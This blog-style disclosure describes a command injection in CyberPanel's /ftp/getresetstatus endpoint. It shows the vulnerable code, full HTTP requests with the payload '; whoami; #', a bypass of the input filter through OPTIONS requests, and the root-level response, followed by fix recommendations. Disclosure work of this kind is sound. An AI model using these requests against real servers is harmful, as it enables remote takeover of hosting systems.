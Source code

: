 ```yaml
---
title: Uncovering a Command Injection Vulnerability in CyberPanel: A Fun Journey into Security Testing
published: 2024-10-23
description: 
tags: [web security, 0day]
category: Examples
draft: false
---
```


# Uncovering a Command Injection Vulnerability in CyberPanel: A Fun Journey into Security Testing

In the ever-evolving landscape of web applications, security remains a top concern. As an avid user and supporter of open-source projects, I was drawn to CyberPanel, a widely-used control panel for managing web hosting and server environments. Little did I know that my exploration would lead me down a rabbit hole, revealing a critical command injection vulnerability!

## Setting the Scene: What is CyberPanel?

CyberPanel is an open-source web hosting control panel that aims to simplify the management of servers. It's packed with features, offering everything from file management to SSL management, making it a go-to choice for many developers and system administrators. However, like any powerful tool, it requires vigilance to ensure security measures are robust.

## The Discovery: Unearthing the Vulnerability

While diving into the functionality of CyberPanel, I stumbled upon the `/ftp/getresetstatus` endpoint. At first glance, it appeared innocuous enough, handling user requests with ease. However, a closer inspection revealed a critical flaw: this endpoint processes user input from the `statusfile` parameter without proper validation or sanitization, creating a tempting opportunity for remote command injection.

## The Vulnerable Code

The vulnerability exists in the `/ftp/getresetstatus` endpoint, which processes user input from the `statusfile` parameter. The code directly incorporates this input into a shell command without proper validation or access control. Here’s a simplified version of the vulnerable code:

```python
def getresetstatus(request):
    data = json.loads(request.body)
    statusfile = data['statusfile']
    installStatus = ProcessUtilities.outputExecutioner("sudo cat " + statusfile)
    ...
```

As illustrated, the `statusfile` parameter is directly used in a shell command, creating a significant opportunity for remote command injection. Moreover, this endpoint lacks proper **Access Control Lists (ACLs)**, leaving it vulnerable to unauthorized access.

### Step 1: Initial Testing

My journey began by testing the `/ftp/getresetstatus` endpoint using a POST request. I crafted a request designed to execute the `whoami` command, ensuring to include the necessary CSRF token for validation:

```http
POST /ftp/getresetstatus HTTP/1.1
Host: example.com
Content-Type: application/json
Cookie: django_language=en; csrftoken=3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
X-Csrftoken: 3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
Content-Length: 48

{
    "statusfile": "; whoami; #"
}
```

Upon sending the request, the security middleware sprang into action and blocked it, returning the following response:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Vary: Accept-Language, Cookie
Content-Language: en
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Content-Length: 269
Date: Wed, 23 Oct 2024 10:52:35 GMT
Server: LiteSpeed
Connection: Keep-Alive

{"error_message": "Data supplied is not accepted, following characters are not allowed in the input ` $ & ( ) [ ] { } ; : \u2018 < >.", "errorMessage": "Data supplied is not accepted, following characters are not allowed in the input ` $ & ( ) [ ] { } ; : \u2018 < >."}
```

The middleware effectively checked for special characters in POST request bodies, but it did **not** apply the same scrutiny to other HTTP methods. This was the critical insight I needed.

### Step 2: Analyzing the Security Middleware

Curious about the middleware's behavior, I dug deeper into the source code. The relevant security middleware checks for specific characters in POST request bodies. Here’s a simplified version of the security middleware code:

```python
class secMiddleware:
    def __call__(self, request):
        if request.method == 'POST':
            try:
                data = json.loads(request.body)
                for key, value in data.items():
                    # Check for special characters
                    if any(char in value for char in [';', '&', '|', '`']):
                        # Log and block the request
                        return HttpResponse("Invalid input detected.")
            except Exception as msg:
                # Handle exceptions
                pass
        return self.get_response(request)
```

The middleware effectively checks for potentially harmful characters in POST requests, but it does **not** apply the same scrutiny to other HTTP methods. This was the critical insight I needed.

### Step 3: The Bypass Discovery

Realizing that the middleware was not enforcing the same checks for OPTIONS requests, I decided to exploit this oversight. I crafted an OPTIONS request with my malicious payload, ensuring to include all relevant headers just like the POST request:

```http
OPTIONS /ftp/getresetstatus HTTP/1.1
Host: example.com
Content-Type: application/json
Cookie: django_language=en; csrftoken=3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
X-Csrftoken: 3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
Content-Length: 48

{
    "statusfile": "; whoami; #"
}
```

### Step 4: Triggering the Vulnerability

To my surprise, the OPTIONS request successfully passed through the security middleware without any validation, executing the command on the server. This allowed me to retrieve sensitive information, and I received the following response confirming the successful exploitation:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-XSS-Protection: 1; mode=block
X-Frame-Options: sameorigin
Content-Security-Policy: style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.jsdelivr.com https://cdnjs.cloudflare.com https://maxcdn.bootstrapcdn.com https://cdn.jsdelivr.net
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Vary: Accept-Language, Cookie
Content-Language: en
Content-Length: 64
Date: Wed, 23 Oct 2024 10:57:29 GMT
Server: LiteSpeed
Connection: Keep-Alive

{"abort": 0, "error_message": "None", "requestStatus": "root\n"}
```

In this response, the `requestStatus` indicates that the command was executed with root privileges, highlighting the severity of the vulnerability.

## Recommendations for Fixing the Vulnerability

Having discovered this vulnerability, it’s crucial to act quickly to secure the application. Here are a few recommendations for CyberPanel developers:

1. **Implement Input Validation**: Ensure all user inputs are validated and sanitized before being used in any shell commands.

2. **Utilize Access Control Lists (ACLs)**: Add ACLs to the `/ftp/getresetstatus` endpoint to restrict access and limit exposure to potential exploits.

3. **Review Other Endpoints**: Conduct a thorough audit of other sensitive endpoints to identify any similar vulnerabilities or missing ACLs.

4. **Enhance Security Middleware**: Update the security middleware to inspect all HTTP methods, including OPTIONS, to ensure no bypassing of security checks is possible.

## Conclusion: The Fun in Finding Flaws

Finding this vulnerability in CyberPanel was both a challenge and a rewarding experience. It not only honed my skills in security testing but also reminded me of the importance of community in open-source projects. I encourage other developers and security researchers to dive into CyberPanel and similar applications—who knows what hidden gems (or vulnerabilities) you might find!

As I prepare to submit a CVE request for this vulnerability, I look forward to sharing more about this journey. Stay tuned for further updates as I report on this issue and how it can be addressed!

Happy testing!
